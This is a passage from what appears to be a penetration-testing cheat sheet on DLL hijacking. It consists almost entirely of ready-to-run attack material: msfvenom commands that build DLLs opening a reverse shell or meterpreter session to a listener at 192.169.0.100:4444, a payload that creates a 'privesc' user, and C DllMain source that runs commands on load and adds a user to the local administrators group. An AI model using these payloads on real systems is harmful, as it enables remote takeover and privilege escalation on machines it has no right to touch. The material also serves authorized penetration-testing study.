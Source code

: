 **Get rev shell (x64):**

```bash
msfvenom -p windows/x64/shell/reverse_tcp LHOST=192.169.0.100 LPORT=4444 -f dll -o msf.dll
```

**Get a meterpreter (x86):**

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.169.0.100 LPORT=4444 -f dll -o msf.dll
```

**Create a user (x86 I didn't see a x64 version):**

```
msfvenom -p windows/adduser USER=privesc PASS=Attacker@123 -f dll -o msf.dll
```

### Your own

Note that in several cases the Dll that you compile must **export several functions** that are going to be loaded by the victim process, if these functions doesn't exist the **binary won't be able to load** them and the **exploit will fail**.

```c
// Tested in Win10
// i686-w64-mingw32-g++ dll.c -lws2_32 -o srrstr.dll -shared
#include <windows.h>
BOOL WINAPI DllMain (HANDLE hDll, DWORD dwReason, LPVOID lpReserved){
    switch(dwReason){
        case DLL_PROCESS_ATTACH:
            system("whoami > C:\\users\\username\\whoami.txt");
            WinExec("calc.exe", 0); //This doesn't accept redirections like system
            break;
        case DLL_PROCESS_DETACH:
            break;
        case DLL_THREAD_ATTACH:
            break;
        case DLL_THREAD_DETACH:
            break;
    }
    return TRUE;
}
```

```c
// For x64 compile with: x86_64-w64-mingw32-gcc windows_dll.c -shared -o output.dll
// For x86 compile with: i686-w64-mingw32-gcc windows_dll.c -shared -o output.dll

#include <windows.h>
BOOL WINAPI DllMain (HANDLE hDll, DWORD dwReason, LPVOID lpReserved){
    if (dwReason == DLL_PROCESS_ATTACH){
        system("cmd.exe /k net localgroup administrators user /add");
        ExitProcess(0);
    }
    return TRUE;
}
```
